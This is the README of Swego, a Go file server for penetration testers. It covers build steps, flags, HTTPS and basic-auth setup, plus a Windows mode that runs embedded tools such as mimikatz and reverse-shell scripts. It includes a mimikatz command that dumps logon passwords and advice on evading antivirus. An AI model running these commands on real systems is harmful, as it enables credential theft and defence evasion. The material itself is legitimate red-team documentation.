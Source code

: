 # Swego

Swiss army knife Webserver in Golang.
Keep simple like the python SimpleHTTPServer but with many features

## Usage

### Run the binary

If you don't want to build it, binaries are availables on https://github.com/nodauf/Swego/releases

Otherwise, `build-essential` should be installed and `GOPATH` configured:
```
git clone https://github.com/nodauf/Swego.git
cd Swego/src
make compileLinux # Or make compileWindows
```

### Help
```
$ ./webserver -help
web subcommand
  -bind int
        Bind Port (default 8080)
  -certificate string
        HTTPS certificate : openssl req -new -x509 -sha256 -key server.key -out server.crt -days 365
  -disable-listing
        Disable directory listing
  -gzip
        Enables gzip/zlib compression (default true)
  -help
        Print usage
  -i    Interactive oneliner
  -ip string
        IP to bind (default "0.0.0.0")
  -key string
        HTTPS Key : openssl genrsa -out server.key 2048
  -password string
        Password for basic auth, default: notsecure (default "notsecure")
  -private string
        Private folder with basic auth, default /home/florian/dev/SimpleHTTPServer-golang/src/private (default "private")
  -prompt-password
        Password for basic auth, will show a prompt default: false
  -root string
        Root folder (default "/home/florian/dev/SimpleHTTPServer-golang/src")
  -s string
        Search and replace string in embedded text files
  -tls
        Enables HTTPS
  -username string
        Username for basic auth, default: admin (default "admin")

run subcommand
  -args string
        Arguments for the binary
  -binary string
        Binary to execute
  -help
        Print usage
  -list
        List the embedded files


Packaged Binaries:
```

### Web server over HTTP
```
$ ./webserver
Sharing /tmp/ on 8080 ...
Sharing /tmp/private on 8080 ...
```

### Web server over HTTPS
```
$ openssl genrsa -out server.key 2048
Generating RSA private key, 2048 bit long modulus (2 primes)
..........................................+++++
.................................................................................................................+++++
e is 65537 (0x010001)

$ openssl req -new -x509 -sha256 -key server.key -out server.crt -days 365
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

$ ./webserver web -tls -key server.key -cert server.crt
Sharing /tmp/ on 8080 ...
Sharing /tmp/private on 8080 ...
```

### Web server using private directory and root directory

#### Private folder on same directory

```
$ ./webserver-linux-amd64 web -private ThePrivateFolder -username nodauf -password nodauf
Sharing /tmp/ on 8080 ...
Sharing /tmp/ThePrivateFolder on 8080 ...
```

#### Different path for root and private directory
```
$ ./webserver-linux-amd64 web -private /tmp/private -root /home/nodauf -username nodauf -password nodauf
Sharing /home/nodauf on 8080 ...
Sharing /tmp/private on 8080 ...
```

### Embedded binary (only on Windows)

#### List the embedded binaries:

```
C:\Users\Nodauf>.\webserver.exe run  
You must specify a binary to run
  -args string
        Arguments for the binary
  -binary string
        Binary to execute
  -help
        Print usage
  -list
        List the embedded files

Packaged Binaries:
Invoke-PowerShellTcp.ps1
mimikatz.exe
php-reverse-shell.php
plink.exe
```

#### Run binary with arguments:

```
C:\Users\Nodauf>.\webserver.exe run -binary mimikatz.exe -args "privilege::debug sekurlsa::logonpasswords"
....
```
Running binary this way could help bypassing AV protections. Sometimes the arguments sent to the binary may be catch by the AV, if possible use the interactive CLI of the binary (like mimikatz) or recompile the binary to change the arguments name.

## Features

* HTTPS
* Directory listing
* Define a private folder with basic authentication
* Upload multiple files
* Download file as an encrypted zip (password: infected)
* Download folder with a zip
* Embedded files
* Run embedded binary written in C# (only available on Windows)
* Create a folder from the browser
* Ability to execute embedded binary
* Feature for search and replace (for fill the IP address in reverse shell for example)
* Generate oneliners to download and execute a embedded file

## Todo
* Log file
* Prompt for password instead using cli
* JS/CSS menu to give command line in powershell, some lolbins, curl, wget to download and execute 
* Config file for the search and replace (Useful for default config) and other features
* Use regex for search and replace
* Using virtual file system to manage embedded files
